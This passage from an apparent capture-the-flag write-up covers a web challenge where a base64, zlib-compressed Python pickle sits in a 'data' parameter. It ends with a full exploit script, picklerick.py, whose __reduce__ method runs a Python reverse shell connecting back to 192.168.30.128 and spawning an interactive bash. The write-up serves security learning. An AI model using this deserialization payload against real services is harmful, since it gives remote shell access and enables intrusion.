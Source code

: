 Bear with me. We are getting to the root of the challenge.

![6c2569d8.png](/assets/images/posts/bsidestlv-web/6c2569d8.png)

Here, I did a `base64` decode of the value after the `data` parameter, and pipe it to `file`. What do you see? `zlib` compressed data? Let's decompress it.

![6d820ade.png](/assets/images/posts/bsidestlv-web/6d820ade.png)

What do we have here? This looks like Python's data serialization using `pickle`. In fact, the name of the challenge is a dead giveaway right from the get-go.

There's plenty of Google results on this subject but I find this blog [post](https://dan.lousqui.fr/explaining-and-exploiting-deserialization-vulnerability-with-python-en.html) has the best explanation. Armed with this knowledge, I wrote a Python exploit that will serialize a Python object that runs a reverse shell back to me.

<div class="filename"><span>picklerick.py</span></div>

```py
import base64
import os
import pickle
import socket
import subprocess
import urllib
import zlib

class Evil(object):
  def __reduce__(self):
    return (os.system, ("python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.30.128\",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\",\"-i\"]);'", ))

print urllib.quote(base64.b64encode(zlib.compress(pickle.dumps(Evil()))))
```
